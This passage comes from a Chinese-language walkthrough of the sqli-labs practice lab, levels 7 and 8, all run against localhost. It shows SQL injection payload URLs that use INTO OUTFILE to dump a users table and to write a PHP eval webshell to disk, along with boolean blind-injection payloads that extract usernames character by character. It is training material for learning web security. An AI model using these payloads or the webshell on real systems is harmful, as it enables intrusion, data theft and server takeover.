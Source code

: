 

![](https://img-blog.csdn.net/20180825153353717?watermark/2/text/aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70)



那样的话，我们构造的payload就查询不到任何数据了。那么，这种情况下我们该如何解呢？我们看到当我们的sql语句能查询到数据的时候他的提示信息，  Use outfile ! 是不是要利用 outfile 这个函数呢？outfile 这个函数的用法是 select  A into outfile B 。意思就是将A写入B中，A可以是任意的文本内容，也可以是数据库查询到的数据，B是一个绝对路径的文件！



于是，我们可以构造这样的payload



```
// 意思就是读取表users的数据，写入到e盘的4.txt文件中      
http://127.0.0.1/sqli/Less-7/?id=1')) union select * from users into outfile "e:\4.txt" #       
// 我们可以将一句话木马写入，然后用菜刀连接，获得shell      
http://127.0.0.1/sqli/Less-7/?id=1')) union select 1,('<?php  @eval($_POST[aa]) ?>'),3  into outfile "e:\5.txt" #
```




### Less-8: Boolean型盲注



直接看源代码吧！



![](https://img-blog.csdn.net/20180825160827885?watermark/2/text/aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70)



通过源代码我们知道，吧参数当成字符型处理。当sql查询语句正确的时候，返回You are in..... 当sql语句错误或没查询到任何数据时，不显示任何东西！所以，我们可以利用[boolean](https://so.csdn.net/so/search?q=boolean&spm=1001.2101.3001.7020)行盲注来判断，根据页面是否显示数据来判断我们的sql语句是否正确！



boolean盲注就是利用 substring() ，ascii() ，length() 这几个函数，结合二分法来判断数据的！手工boolean盲注很麻烦，可以利用工具来进行盲注！下面给出盲注的基本代码



```
http://127.0.0.1/sqli/Less-1/?id=1' and 1=2 #       
//  and 1=2 就是注入点，我们就可以用工具进行注入了      
http://127.0.0.1/sqli/Less-1/?id=1' #inject# #       
// 判断username列的第一个数据长度，第二个数据 limit 2，1  ，第三个数据 limit 3,1      
http://127.0.0.1/sqli/Less-1/?id=-1'  and (select length(username) from admin  limit 1) >5 #       
// 判断username列的第一个数据的第一个字符的ascii值      1
http://127.0.0.1/sqli/Less-1/?id=-1'  and (select ascii(username) from admin limit 1)>97 #       1
// 判断username列的第一个数据的第2个字符的ascii值      1
http://127.0.0.1/sqli/Less-1/?id=-1'  and (select ascii(substring(username,2,1)) from admin limit 1)>97 #       1
// 判断username列的第二个数据的第2个字符的ascii值      1
http://127.0.0.1/sqli/Less-1/?id=-1'  and (select ascii(substring(username,2,1)) from admin limit 2,1)>97 #
```
